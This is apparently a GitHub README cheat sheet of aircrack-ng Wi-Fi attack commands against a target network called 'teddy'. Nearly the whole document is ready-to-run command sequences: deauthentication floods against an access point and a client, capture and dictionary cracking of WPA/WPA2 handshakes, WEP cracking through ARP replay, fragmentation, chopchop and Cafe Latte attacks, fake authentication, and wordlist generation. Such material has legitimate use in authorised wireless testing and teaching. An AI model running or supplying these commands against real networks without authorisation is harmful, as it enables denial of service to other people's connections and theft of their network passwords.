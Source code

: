 # All usage of attacks by aircrack-ng

In this example
- `wlan0` is the name of your interface in manager mode
- `mon0` is the name of your interface in monitor mode
- `teddy` is the name of your target network
- `00:14:6C:7E:40:80` is the bssid of target network
- `00:09:5B:EB:C5:2B` is the bssid of your network
- `-c X` is the channel of target network
- `out.cap` is the filename to capture the WPA handshake
- `password.txt` is the filename to brute force
- `password.txt` is the file contains name of target network
- `crackwpa` is the database name for cracking password
- `sharedkey.xor` is the name of file containing the PRGA xor bits

## Scan network around

```
airmon-ng check kill
airmon-ng start wlan0
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
ls
```

## [Cracking WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
(wait handshake)
aircrack-ng -w password.txt out*.cap 
```

## [ARP Request Replay Attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -0 10 -a 00:14:6C:7E:40:80 mon0
aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## Crack WEP by ARP request reinjection

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -1 100 -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
aireplay-ng -3 0 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
(wait to capture about 70.000 packet)
aircrack-ng -a 1 out*.cap
```

## Speed up cracking use database

```
sudo apt install sqlite3
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
airolib-ng crackwpa --stats # to check information about your database before batch
airolib-ng crackwpa --clean all # to clean the database from old junk and integrity check
(you can skip 2 lines above)
airolib-ng crackwpa --batch
aircrack-ng -r crackwpa out*.cap
```

## Brute force tools

Aircrack often uses brute force with some other tools as follows:

- [Cupp](https://github.com/lucthienphong1120/cupp)
- /usr/share/wordlists/rockyou.txt.gz
- [Crunch](https://www.kali.org/tools/crunch)

```
crunch [min] [max] [charset] -t [pattern] -o [path file]
```

## [Interactive packet replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay)

Natural Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -d 00:09:5B:EB:C5:2B -t 1 mon0
```

Modified Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -t 1 -c 00:09:5B:EB:C5:2B -p 0841 mon0
```

Rebroadcast the packet and thereby generate new IVs

```
aireplay-ng -2 -p 0841 -c 00:09:5B:EB:C5:2B -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82  mon0
```

## [Fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication)

```
aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

Another variation

```
aireplay-ng -1 6000 -o 1 -q 10 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Shared key fake authentication](https://www.aircrack-ng.org/doku.php?id=shared_key)

Start interface monitor mode on AP channel

```
airmon-ng start wlan0 6
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w sharedkey mon0
(wait AUTH=SKA)
ls
```

Deauthenticate a connected client

```
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 mon0
```

`00:0F:B5:34:30:30` is the MAC address of the client you are deauthing

Perform Shared Key Fake Authentication

```
aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B -y sharedkey*.xor mon0
```

## [Fragmentation Attack](https://www.aircrack-ng.org/doku.php?id=fragmentation)

```
aireplay-ng -5 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Crack WEP with KoreK chopchop](https://www.aircrack-ng.org/doku.php?id=korek_chopchop)

```
aireplay-ng -4 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

Chopchop Without Authentication

```
aireplay-ng -4 -b 00:14:6C:7E:40:80 mon0
```

## [Crack WEP with Cafe Latte](https://www.aircrack-ng.org/doku.php?id=cafe-latte)

```
aireplay-ng -6 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B -D mon0
```










